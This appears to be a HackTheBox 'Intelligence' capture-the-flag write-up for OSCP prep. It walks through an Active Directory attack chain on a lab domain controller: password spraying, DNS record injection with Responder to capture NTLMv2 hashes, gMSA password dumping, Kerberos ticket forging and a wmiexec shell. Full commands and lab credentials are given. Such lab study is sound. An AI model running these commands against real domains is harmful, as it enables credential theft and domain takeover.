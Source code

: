 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Key Exploits:**  
  - PDF metadata & URL fuzzing → default creds  
  - Password spraying  
  - LDAP DNS record injection → Responder NTLM capture  
  - gMSA password dump (ReadGMSAPassword)  
  - Kerberos S4U2Self/S4U2Proxy (silver ticket)  
  - WMI exec  

---

## TL;DR 🚀
1. **Recon:** nmap → DC + DNS + HTTP + LDAP + SMB  
2. **PDF Hunt:** brute‑force `/documents/YYYY‑MM‑DD-upload.pdf` → find default password **NewIntelligenceCorpUser9876** in PDF text  
3. **User Enumeration:** extract `/Creator` metadata → list ~30 usernames → validate with kerbrute  
4. **Password Spray:** `crackmapexec smb` → **Tiffany.Molina:NewIntelligenceCorpUser9876** → SMB as Tiffany → grab `user.txt`  
5. **Find Script:** SMB share `IT\downdetector.ps1` polls **web*** DNS records every 5 min, using default creds  
6. **Poison DNS:** use `dnstool.py` (LDAP) to add `web-0xdf`→your IP → wait for HTTP callback → capture NTLMv2 with Responder  
7. **Crack Hash:** NTLMv2 of `Ted.Graves` → **Mr.Teddy** → SMB as Ted  
8. **BloodHound:** Ted.Graves ∈ ITSupport → has **ReadGMSAPassword** on `svc_int$` & `svc_int` has **AllowedToDelegate**→DC  
9. **gMSADumper:** dump `svc_int$` NTLM hash via LDAP  
10. **Silver Ticket:** `getST.py` S4U2Self+Proxy for SPN `www/dc.intelligence.htb` impersonating Administrator → `administrator.ccache`  
11. **Shell:**  
    ```bash
    KRB5CCNAME=administrator.ccache \
      wmiexec.py -k -no-pass administrator@dc.intelligence.htb
    ```  
12. **Root.txt** acquired from `C:\Users\Administrator\Desktop\root.txt`

---

## Important Commands 🛠️

```bash
# 1. Enumerate PDFs, extract Creator & default password
#    (See Python script in writeup)

# 2. Validate users & spray default password
kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users.txt
crackmapexec smb 10.10.10.248 \
  -u users.txt -p NewIntelligenceCorpUser9876 \
  --continue-on-success

# 3. SMB as Tiffany.Molina
smbclient -U Tiffany.Molina //10.10.10.248/Users

# 4. Fetch downdetector.ps1
smbclient -U Tiffany.Molina //10.10.10.248/IT
get downdetector.ps1

# 5. Poison DNS via LDAP
dnstool.py -u intelligence\\Tiffany.Molina \
  -p NewIntelligenceCorpUser9876 \
  --action add --record web-0xdf \
  --data 10.10.14.19 --type A intelligence.htb

# 6. Capture NTLMv2 with Responder
sudo responder -I tun0

# 7. Crack Ted.Graves’s hash
hashcat -m 5600 ted.graves.hash /usr/share/wordlists/rockyou.txt

# 8. Dump GMSA password as Ted.Graves
gMSADumper.py -u Ted.Graves -p Mr.Teddy \
  -l intelligence.htb -d intelligence.htb

# 9. Forge silver ticket (S4U2Self + Proxy)
getST.py -dc-ip 10.10.10.248 \
  -spn www/dc.intelligence.htb \
  -hashes :<svc_int$hash> \
  -impersonate administrator \
  intelligence.htb/svc_int

# 10. WMI exec as administrator
KRB5CCNAME=administrator.ccache \
  wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```

---

## Key Takeaways 🔑
- **Hidden PDF end‑points** can leak default creds via Exif & text extraction.  
- **LDAP DNS injection** (AD‐Integrated records) + Responder → NTLMv2 capture.  
- **gMSA** (ReadGMSAPassword) + **Constrained Delegation** → silver ticket forging.  
- **Impacket tools** (`getST.py`, `wmiexec.py`) streamline Kerberos abuse.  

---

## References 📚
- **dnstool.py** (LDAP DNS editor)  
- **Responder** – LLMNR/mDNS/NetBIOS poisoner  
- **gMSADumper** – dump group‐managed service account creds  
- **Impacket** – getST.py & wmiexec.py for Kerberos & WMI  
- **BloodHound** – graph AD ACLs & delegation paths  